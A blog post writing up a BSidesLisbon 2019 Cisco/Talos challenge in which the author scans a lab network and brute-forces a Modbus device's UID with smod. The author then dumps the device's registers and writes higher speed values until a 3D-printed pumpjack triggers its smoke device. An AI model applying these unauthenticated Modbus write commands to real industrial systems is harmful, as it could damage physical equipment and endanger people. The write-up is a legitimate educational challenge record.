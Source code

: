```yaml
---
layout: post
title:  "Make it smoke! Cisco Challenge Write-up"
categories: [infosec, iot]
tags: [bsideslisbon, infosec, iot, cisco]
thumbnail: /images/bsideslx19/final.png
description: "Write-up of a sidequest challenge by Cisco/Talos during BSidesLisbon 2019"
---
```


BSides is the biggest security-wise event in Portugal, with two days of talks, workshops, a CTF competition, and lots more. During BSides, some *sidequests* ranging from raffles to challenges appear that can give you prizes*!* This is a write-up of one of those challenges by Cisco/Talos.

<!--more-->

## The Challenge

![Make it Smoke!](/images/bsideslx19/header.png)

In the booth of Cisco/Talos, we were presented with the following scenario (as it can be seen in the picture):
1. An access point (AP) named `security` with the password `cisco12345`.
2. A 3d-printed pumpjack[^1].
3. Some controlling system based on Arduino.
4. The objective was to make it smoke somehow.

## Preliminaries

First thing first, connect to the network and do a quick network and port scan. Since it was an AP for everyone that wanted to do the challenge, several IP's showed up, but only one interesting, the `10.10.10.1` with the port `502` open.

As per Siemens documentation: *By default, the protocol uses Port `502` as local port in the Modbus server*[^2]. Thus we are probably faced with something that speaks *Modbus* protocol.

With a little of search, you can find a lot of *Modbus* protocol clients in the wild, as well as some *offensive* toolkits. 

## Making it smoke!

Using the [smod-1 by theralfbrown](https://github.com/theralfbrown/smod-1) toolkit, I was able to connect to the Modbus system and interact with it. 

{% highlight bash %}
$ python smod.py
SMOD > use modbus/scanner/uid
SMOD modbus(uid) > set RHOST 10.10.10.1
SMOD modbus(uid) > exploit
[+] Module Brute Force UID Start
[+] Start Brute Force UID on : 10.10.10.1
[+] UID on 10.10.10.1 is : 10
{% endhighlight %}

Now I did know the UID of the Modbus, however even after exploring the DoS capabilities and *all* the reader modules I was not getting anywhere close to make it smoke.

So, after exploring a little more one Github, I found out this really nice [modbus-cli by tallakt](https://github.com/tallakt/modbus-cli).

Even if it was not implemented with an *offensive* mindset like the previous tool, it allowed us to read, write and **dump** the memory of a *Modbus* device. Using it, we were able to read random parts of the memory, *e.g.*, reading five words from the device starting from address `%MW100` (which corresponds to address `400101`).

{% highlight bash %}
$ modbus read 10.10.10.1 %MW100 5
%MW100 0
%MW101 0
%MW102 0
%MW103 0
%MW104 0
{% endhighlight %}

After trying to read random places of the memory using this tool and finding nothing but zero values, and decided to just *dump* everything into a file (the operation took around 20 seconds).

{% highlight bash %}
$ modbus read --output mybackup.yml 10.10.10.1 400001 1000
{% endhighlight %}

After dumping all the memory into a file, looking into the file:

{% highlight bash %}
$ cat mybackup.yml 
---
:host: 10.10.10.1
:port: 502
:slave: 1
:offset: '400001'
:data:
- 0
- 0
- 0
- 0
- 0
- 0
- 5000
- 0
-- show more --
{% endhighlight %}

The file keeps going on, with a lot of zero's and a lot of random values. I guess that those random values were the result of all the participants trying to *pwn* it. 

However, that seventh value caught my attention because it was a single round number. Maybe that was the speed of the rotation mechanism of the pumpjack, *maybe*.

Checking if the dump was correct, with the same tool we could read that specific part of the memory:

{% highlight bash %}
$ modbus read 10.10.10.1 400001 7
400001 0
400002 0
400003 0
400004 0
400005 0
400006 0
400007 8000
{% endhighlight %}

And yep, the value was still there, but a bit higher (and we could observe the pumpjack rotating more quickly).

So the next step was to try to write some higher value there:

{% highlight bash %}
$ modbus write 10.10.10.1 400007 10000
{% endhighlight %}

And then, *higher*:

{% highlight bash %}
$ modbus write 10.10.10.1 400007 18000
{% endhighlight %}

And this was it, the increase in the rotation speed of the pumpjack triggered the smoke device that was connected to the Arduino! 

![Running like hell!](/images/bsideslx19/final.png)

This was my first time playing around with *Modbus*, and there is still a lot that I didn't touch nor understood. Nonetheless, it was a nice kickstart. 

Props to Cisco and Talos for coming up with the challenge and for the coffee mug and the [*snort*](https://www.snort.org/). And *pwning* IoT is the best kind of *pwn*.


[^1]: [Pumpjack on Wikipedia](https://en.wikipedia.org/wiki/Pumpjack)
[^2]: [Which ports are released for Modbus/TCP communication](https://support.industry.siemens.com/cs/document/34010717/which-ports-are-released-for-modbus-tcp-communication-and-how-many-modbus-clients-can-communicate-with-a-simatic-s7-pn-cpu-as-modbus-server-?dti=0&lc=en-WW)
